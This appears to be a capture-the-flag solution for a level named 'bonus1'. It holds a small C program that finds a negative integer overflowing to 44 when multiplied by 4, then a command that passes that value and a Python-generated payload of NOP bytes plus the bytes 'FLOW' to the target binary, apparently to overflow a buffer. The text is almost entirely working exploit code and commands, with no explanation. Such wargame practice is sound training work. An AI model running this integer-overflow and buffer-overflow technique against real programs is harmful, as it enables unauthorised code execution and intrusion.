 #include <stdio.h>

int main(int argc, char *argv[]){
        signed int neg = -1;
        while((neg * 4) != 44 ){
                neg--;
        }
        printf("%d\n",neg);
        //
	printf("%d\n",neg << 2);
}


./bonus1 -1073741813 $(python -c 'print "\x90" * 40 + "\x46\x4c\x4f\x57"')